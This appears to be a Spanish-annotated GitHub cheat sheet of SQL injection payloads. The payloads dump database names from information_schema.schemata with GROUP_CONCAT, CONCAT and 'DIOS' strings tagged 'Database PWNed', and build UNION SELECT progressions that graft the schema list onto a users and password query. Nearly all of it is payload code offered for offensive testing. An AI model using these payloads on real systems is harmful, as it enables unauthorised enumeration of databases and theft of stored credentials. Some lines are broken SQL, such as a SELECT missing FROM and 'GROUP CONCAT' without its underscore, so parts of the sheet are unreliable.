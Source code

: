 # SQLi: schema, schemata & DIOS

## Fz3r0 SQLi: `schema_name` (Databases) mini bible

````sql
## Schema Name AKA Databases Names Dump
SELECT schema_name FROM information_schema.schemata;

---

## Group Concat Basic Query
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Limitando a 1 en caso que solo deje arrojar un resultado
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata limit 0,1;

---

## Concat Basic Query
SELECT CONCAT(schema_name) FROM information_schema.schemata;

## Mini DIOS: DB Enum (schema enum)
SELECT CONCAT('Database PWNed : ',(schema_name)) FROM information_schema.schemata;

---
````

## `schema name` from `information schema`

### Query basic

````sql
## Schema Name AKA Databases Names Dump
select schema_name CONCAT information_schema.schemata;
````

---

### Group Concat

#### Basic

````sql
## Group Concat Basic Query
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Limitando a 1 en caso que solo deje arrojar un resultado
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata limit 0,1;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT GROUP_CONCAT(schema_name SEPARATOR ' : ') FROM information_schema.schemata;

## Mini DIOS
SELECT GROUP_CONCAT('Database PWNed: ',schema_name) FROM information_schema.schemata;
````

---

### Concat

#### Basic

````sql
## Concat Basic Query
SELECT concat(schema_name) FROM information_schema.schemata;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT concat(schema_name, ' : ') FROM information_schema.schemata;

## Mini DIOS: DB Enum (schema enum)
SELECT concat('Database PWNed : ',(schema_name)) FROM information_schema.schemata;
````

---

### Union + Group Concat

#### `Union Select` Progression:

````sql
## Original example v1:
select username,password from users;

## Original example v2:
select username,password from users where username = 'F0n3';

## Basic Union Select (v1)
select username,password from users union select 1,2;

## Condition Union Select (v2):
select username,password from users where username = 'F0n3' union select 1,2;

## Condition Union Select, strings a palcer (v2):
select username,password from users where username = 'F0n3' union select 'izquierda','derecha';
````

---

### `schema_name`

#### `Union Select` + `schema_name`

````sql
##     Tip: básicamente se inserta el basic query (SELECT schema_name FROM information_schema.schemata;) dentro de un UNION pero se le quita el SELECT para que no se duplique ;)

## Basic Union Select (v1)
SELECT username,password FROM users UNION SELECT 1,schema_name FROM information_schema.schemata;

## Condition Union Select (v2):
select username,password from users where username = 'F0n3' UNION SELECT 1,schema_name FROM information_schema.schemata;
````

#### `Group Concat` + `Union Select` + `schema_name`

````sql
##     Tip: básicamente se inserta el query de union select un "GROUP_CONCAT" (GROUP CONCAT(schema_name)) dentro de un UNION pero se le quita el SELECT para que no se duplique ;)

## Basic Union Select (v1)
SELECT username,password FROM users UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Condition Union Select (v2):
select username,password from users where username = 'F0n3' UNION SELECT 1,GROUP CONCAT(schema_name) FROM information_schema.schemata;
````


